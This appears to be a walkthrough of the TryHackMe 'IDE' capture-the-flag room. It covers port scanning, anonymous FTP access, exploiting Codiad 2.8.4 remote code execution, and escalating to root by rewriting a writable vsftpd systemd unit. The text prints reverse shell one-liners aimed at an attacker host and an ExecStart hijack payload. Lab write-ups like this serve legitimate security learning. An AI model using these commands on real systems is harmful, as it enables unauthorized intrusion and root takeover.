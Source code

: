 # IDE
This writeup is intended for IDE room in [TryHackMe](https://tryhackme.com).

Table of Contents
=================
* [URL](#URL)
* [Introduction](#Introduction)
	* [Port scan](#Port-scan)
	* [Further port scan](#Further-port-scan)
* [FTP login](#FTP-login)
* [HTTP login](#HTTP-login)
* [Exploiting HTTP server](#Exploiting-HTTP-server)
* [Privillege Escalation](#Privillege-Escalation)
	* [Home Directory](#Home-Directory)
	* [SSH Login](#SSH-Login)
	* [FTP Exploitation](#FTP-Exploitation)

# URL

URL to the IDE room is: https://tryhackme.com/room/ide\
Clickable URL to the room is provided [here](https://tryhackme.com/room/ide)

# Introduction

IDE is an easy difficulty box intended for further developing enumeration skills.
The task is to gain shell access on the box and escalate privilleges.

## Port scan
I started this room with simple port scan using `nmap`. The command I have used was `sudo nmap -vv -sS -oN -p- initial_scan.txt IP`. Explanation of the used flags is presented below:

```
sudo - gives nmap root privilleges.
-vv - verbosity. Prints out more information about what the nmap scan is doing.
-sS - SYN (stealth) scan. Checks the status of ports by initiating TCP connections but never completing them.
-p- - specify ports to be scanned. Hyphen (-) indicates to scan all 65535 ports.
-oN - normal output is redirected to a given filename (in this case - initial_scan.txt).
IP - IP address of the target machine.
```

Finished scan found ***4*** open TCP ports. These ports are: ***21***, ***22***, ***80*** and ***62337***.

## Further port scan

Now let's do a more throughout scan of these ports with the command `nmap -vv -A -p 21,22,80,62337 -oN open_ports.txt IP`. Expanation for this command is presented below:

```
-vv - verbosity. Prints out more information about what the nmap scan is doing.
-A - aggresive scan options. Enables OS edection (-O), version scanning (-sV), script scanning (-sC) and traceroute (--traceroute) flags.
-p - specify ports to scan.
-oN - normal output is redirected to a given filename (in this case - open_ports.txt).
IP - IP address of the target machine.
```

This scan gave more information about the ports open and services running on top of them. Let's take a look at the newly found information:
1. Port `21` is running FTP service and it's version `vsftpd 3.0.3`.
	a. ftp-anon script scan results indicates that Anonymous FTP login is allowed.
2. Port `22` is running SSH service.
3. Port `80` is running Apache HTTP service.
4. Port `62337` is running another HTTP service.
	a. http-title of this server is Codiad 2.8.4. This specific version of Codiad has a vulnerability which allows Remote Code Execution (RCE) attacks and is a possible attack vector for privillege escalation on this system.

# FTP login

Next I will try anonymous login to the FTP service. The command for connecting to the FTP server is `ftp IP`, where `IP` is IP address of the target machine. When prompted for Username, type `anonymous` and leave the Password field empty.
When I had logged in to the FTP server, strangely I found no files in here. So I have used the `ls -lah` command for more information and found ***three*** directories here:
1. `.` and `..` are standard directories on UNIX-like operating systems.
2. `...` is ***not*** a standard directory.
I went to this directory with `cd` command and found a `-` file, which I have downloaded to host machine with FTP's `GET` command.
Then I have changed the name of the file from `-` to a `file` and gave it a `.txt` extension.
After that I have opened the file with a text editor and found a message in here:

```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

This gives us a couple of usernames - `john` and `drac`. Also, it says that the password for user `john` has been reset and is set to default. Likely, this is the user of the webserver at port `62337`. Well, if the user has default password, it should not be hard to guess it... :)

# HTTP login

So I have logged into the server via `Firefox` browser with the credentials for user `john` and it opens an web-based ***Codiad 2.8.4*** administration panel with some python scripts. Based on the scripts, this server is used for controlling IP cameras and is the one we need to gain shell access to.

# Exploiting HTTP server

The specific Codiad version used in this box has a well described remote shell upload vulnerability, for which the code can be found [on the exploit-db site here](https://www.exploit-db.com/exploits/49705).
	So, I have downloaded this exploit to the attackbox and named it `codiad_exploit.py`. Following parameters needs to be specified for the script to run successfully:
1. ***URL*** of the target webserver. It consists of ***IP address*** and the ***Port number*** of the target webserver.
2. ***Username*** of the webserver's user.
3. ***Password*** of the same user.
4. ***IP address*** of the attacking machine.
5. ***Port*** that is used to listen to the reverse shell.
6. ***Platform*** that is running on the server (Windows or Linux).
7. When I opened Codiad administration panel within Firefox I found out that the files within the server are located in `/var/www/html` directory, so it can be conducted that this webserver is hosting Linux.

For succesfully running this exploit, ***3 terminal instances*** need to be used:
1. In ***the first terminal***, the command for server exploitation is constructed - `python3 codiad_exploit.py http://<target-ip>:<target-port> john [REDACTED] <attacker-ip> <listening-port> linux`.
2. From the exploit a reverse shell command is given to execute on a ***second terminal***. Command for this is: `echo 'bash -c "bash -i > /dev/tcp/<attacker-ip>/<listening-port>+1 0>&1 2>&1"' | nc -lnvp <listening-port>`.
3. On the ***third terminal*** a ***netcat listener*** is set up. Command for this is `nc -lnvp <listening-port>+1`.

After the payload is sent, on the terminal with netcat listener there is an access to the target's shell - `www-data@ide`.

# Privillege Escalation

## Home Directory

Now it is necessary to navigate to the webserver's ***home*** directory. There is the folder for user `drac`. Within this directory there is the `user.txt` file. Although permission to view this file is denied at this stage. Luckily, `.bash_history` file is readable and contains the `mysql` user `drac` and this user's password.

## SSH Login

Although previously found credentials were intended for mysql, I have tried to SSH into the webserver with them and I succeeded to do that. Now I am inside a directory, where I ***have*** permissions to read `user.txt` file. Now it is possible to read this flag - a task that I will leave to the reader :)

## FTP Exploitation

By further analyzing the compromised system I was able to find out that the user `drac` is able to run `sudo` command. On `ide` server it can run `/usr/sbin/service vsftpd restart` command.
By using `locate` command I will search for `vsftpd.service` file.
The command gives back a bunch of `vsftpd.service` files but the most interesting one is located at `/lib/systemd/system/vsftpd.service` - this one can be written to by the user `drac`. It is possible to add a ***reverse shell payload*** to this file, so that when the FTP service is restarted, the server automatically connects to the listener that was set up earlier and gives root access to it.
When this file is opened, `ExecStart=` command needs to be changed to the reverse shell payload:

`ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<listening-port>+1 0>&1'`

Save the file and restart FTP service with `sudo /usr/sbin/service vsftpd restart`. It gives a warning to reload units with `systemctl daemon-reload`. Reload the units and restart the FTP service again. Volia, the netcat listener should have access to the root shell of the webserver!
Now navigate to the `root` folder and grab the flag from the `root.txt` file :)

